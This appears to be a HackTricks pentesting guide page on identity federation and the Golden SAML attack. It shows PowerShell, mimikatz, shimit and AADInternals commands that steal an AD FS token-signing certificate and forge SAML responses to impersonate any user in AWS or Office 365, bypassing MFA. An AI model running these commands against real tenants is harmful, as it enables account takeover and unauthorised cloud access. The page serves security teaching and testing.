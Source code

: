 # Federation

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

**Federation** is a collection of **domains** that have established **trust**. The level of trust may vary, but typically includes **authentication** and almost always includes **authorization**. A typical federation might include a **number of organizations** that have established **trust** for **shared access** to a set of resources.

You can **federate your on-premises** environment **with Azure AD** and use this federation for authentication and authorization. This sign-in method ensures that all user **authentication occurs on-premises**. This method allows administrators to implement more rigorous levels of access control. Federation with **AD FS** and PingFederate is available.

<figure><img src="../../../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

Bsiacally, in Federation, all **authentication** occurs in the **on-prem** environment and the user experiences SSO across all the trusted environments. Therefore, users can **access** **cloud** applications by using their **on-prem credentials**.

**Security Assertion Markup Language (SAML)** is used for **exchanging** all the authentication and authorization **information** between the providers.

In any federation setup there are three parties:

* User or Client
* Identity Provider (IdP):
* Service Provider (SP)

<figure><img src="../../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

1. First the user **tries to access an application** (also known as the SP i.e. Service Provider), that might be an AWS console, vSphere web client, etc. Depending on the implementation, the client may go directly to the IdP first, and skip the first step in this diagram.
2. The application then **detects the IdP** (i.e. Identity Provider, could be AD FS, Okta, etc.) to authenticate the user, **generates a SAML AuthnRequest** and redirects the client to the IdP.
3. The **IdP authenticates the user**, **creates a SAMLResponse** and posts it to the SP via the user.
4. SP **checks the SAMLResponse** and **logs the user in**. The SP must have a trust relationship with the IdP. The user can now use the service.

**If you want to learn more about SAML authentication and common attacks go to:**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## Pivoting

* AD FS is a claims-based identity model.
* "..claimsaresimplystatements(forexample,name,identity,group), made about users, that are used primarily for authorizing access to claims-based applications located anywhere on the Internet."
* Claims for a user are written inside the SAML tokens and are then signed to provide confidentiality by the IdP.
* A user is identified by ImmutableID. It is globally unique and stored in Azure AD.
* TheImmuatbleIDisstoredon-premasms-DS-ConsistencyGuidforthe user and/or can be derived from the GUID of the user.
* More info in [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Golden SAML attack:**

* In ADFS, SAML Response is signed by a token-signing certificate.
* If the certificate is compromised, it is possible to authenticate to the Azure AD as ANY user synced to Azure AD!
* Just like our PTA abuse, password change for a user or MFA won't have any effect because we are forging the authentication response.
* The certificate can be extracted from the AD FS server with DA privileges and then can be used from any internet connected machine.
* More info in [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

From the previous schema the most interesting part is the third one, were the **IdP** generates a **SAMLResponse** authorising the user to sig in. Depending on the specific IdP implementation, the **response** may be either **signed** or **encrypted** by the **private key of the IdP**. This way, the **SP can verify** that the SAMLResponse was indeed created by the trusted IdP.

Similar to a [golden ticket attack](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket), with the **key** that **signs** the object which holds the **user’s identity** and **permissions** (_KRBTGT_ for golden ticket and token-signing private key for golden SAML), we can then **forge such an “authentication object”** (TGT or SAMLResponse) and **impersonate any user** to gain unauthorized access to the SP.

In addition, golden SAMLs have the following advantages:

* They can be **generated** from practically **anywhere**. You don’t need to be a part of a domain, federation of any other environment you’re dealing with
* They are effective even when **2FA** is enabled
* The token-signing **private key** is **not renewed** automatically
* **Changing** a user’s **password** **won’t affect** the generated SAML

#### AWS + AD FS + Golden SAML = ♥ (case study)

[Active Directory Federation Services](https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402\(v=msdn.10\)) (**AD FS**) is a Microsoft standards-based domain service that allows the **secure sharing of identity information** between trusted business partners (**federation**). It is basically a service in a domain that provides domain user identities to other service providers within a federation.

Assuming AWS **trusts** the domain which you’ve compromised (in a federation), you can then take advantage of this attack and practically **gain any permissions in the cloud environment**. To perform this attack, you’ll need the **private key that signs the SAML** objects (similarly to the need for the KRBTGT in a golden ticket). For this private key, you don’t need a domain admin access, you’ll only need the AD FS user account.

Here’s a list of the requirements for performing a golden SAML attack:

* **Token-signing private key**
* **IdP public certificate**
* **IdP name**
* **Role name (role to assume)**
* Domain\username
* Role session name in AWS
* Amazon account ID

_The mandatory requirements are highlighted. For the other non-mandatory fields, you can enter whatever you like._

For the **private key** you’ll need access to the **AD FS account**, and from its **personal store** you’ll need to **export the private key** (export can be done with tools like [mimikatz](https://github.com/gentilkiwi/mimikatz)). For the other requirements you can import the powershell snapin Microsoft.Adfs.Powershell and use it as follows (you have to be running as the ADFS user):

```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```

With all the information, it's possible to forget a valid SAMLResponse as the user you want to impersonate using [**shimit**](https://github.com/cyberark/shimit)**:**

{% code overflow="wrap" %}
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

### On-prem -> cloud

```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```

It's also possible to create ImmutableID of cloud only users and impersonate them

```powershell
# Create a realistic ImmutableID and set it for a cloud only user 
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```

## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
